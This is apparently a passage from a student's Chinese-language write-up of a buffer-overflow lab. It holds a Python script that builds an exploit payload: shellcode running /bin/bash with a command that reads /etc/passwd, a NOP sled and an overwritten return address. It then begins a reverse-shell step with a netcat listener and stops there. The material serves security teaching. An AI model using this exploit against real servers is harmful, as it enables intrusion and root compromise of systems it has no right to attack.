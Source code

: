 ```python
#!/usr/bin/python3
import sys

shellcode = (
    # Put the shellcode in here
    "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
    "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
    "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
    "/bin/bash*"
    "-c*"
    "/bin/ls -l; echo Hello 32; /bin/tail -n 2 /etc/passwd     *"
    "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
    "BBBB"   # Placeholder for argv[1] --> "-c"
    "CCCC"   # Placeholder for argv[2] --> the command string
    "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 0x78               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = 0xFFFFD240     # Change this number
offset = 0x74              # Change this number

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 4] = (ret).to_bytes(4, byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

### Reverse shell.

> We are not interested in running some pre-determined commands. We want to get a root shell on the target server, so we can type any command we want. Since we are on a remote machine, if we simply get the server to run /bin/sh, we won’t be able to control the shell program. Reverse shell is a typical technique to solve this problem. Section 10 provides detailed instructions on how to run a reverse shell. Please modify the command string in your shellcode, so you can get a reverse shell on the target server. Please include screenshots and explanation in your lab report.

要求要在目标服务器上拿到root shell，首先学习了文档中要求的reverse shell：

首先通过`$ nc -nv -l 9090`命令监听端口9090上的连接，该命令将阻塞，等待连接：
